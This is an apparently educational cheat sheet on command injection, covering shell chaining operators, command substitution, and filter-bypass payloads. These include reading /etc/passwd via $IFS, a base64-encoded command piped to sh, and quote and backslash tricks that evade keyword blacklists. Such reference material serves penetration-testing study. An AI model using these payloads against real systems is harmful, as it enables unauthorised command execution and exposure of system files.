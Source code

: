 ```yaml
---
icon: terminal
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)
* [https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)

### Space Bypass

Avoid using spaces with **Internal Field Separator** `$IFS` . The default value of IFS is a space, a tab, and a newline.

```bash
cat$IFS/etc/passwd
```

```bash
# Only works in bash
{echo,Y2F0IC9ldGMvcGFzc3dk}|{base64,-d}|sh
```

### Blacklisted Words

```bash
# Quotes ' / "
w'h'o'a'm'i'     # Both windows and linux systems
wh''oami         # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
